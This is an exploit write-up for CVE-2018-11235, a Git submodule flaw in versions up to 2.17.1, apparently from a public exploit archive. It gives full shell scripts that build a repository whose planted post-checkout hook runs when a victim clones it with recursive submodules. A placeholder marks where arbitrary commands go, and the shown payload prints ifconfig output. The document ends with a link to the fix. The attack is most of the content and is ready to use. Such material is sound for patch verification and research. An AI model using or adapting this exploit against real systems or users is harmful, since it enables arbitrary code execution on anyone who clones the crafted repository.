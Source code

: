 # CVE-2018-11235

# Exploit Title:  Git (code execution)
# Date: 2018-05-29
# Exploit Author: Jameel Nabbo
# Website: jameelnabbo.com
# Vendor Homepage: https://github.com/git/git 
# CVE: CVE-2018-11235
 #Version:  <=2.17.1 
# Tested on Kali Linux
 
 
P0C:
 
Create two files:
pwned.sh: the file which will contain our commands to be executed 
commit.sh the fole which contain a normal build with a bit of calls to our pwned.sh file
 
add the follwing to Pwned.sh:
#!/bin/sh
cat << EOF
 
#here we can put our lovely commands
Exploited! : $(ifconfig)
 
EOF
 
#--------
 
Add the follwing to commit.sh file:
#!/bin/sh
 
set -e
 
repo_dir="$PWD/repo"
#change it to any other Repo
repo_submodule='https://github.com/JameelNabbo/SmartWorm'
 
git init "$repo_dir"
cd "$repo_dir"
git submodule add "$repo_submodule" pwned
mkdir modules
cp -r .git/modules/pwned modules
cp ../pwned.sh modules/pwned/hooks/post-checkout
git config -f .gitmodules submodule.pwned.update checkout
git config -f .gitmodules --rename-section submodule.pwned submodule.../../modules/pwned
git add modules
git submodule add "$repo_submodule"
git add SmartWorm
git commit -am pwned
echo "All done, now \`git clone --recurse-submodules \"$repo_dir\" dest_dir\`”
 
 
——————
Solution:
https://www.edwardthomson.com/blog/upgrading_git_for_cve2018_11235.html
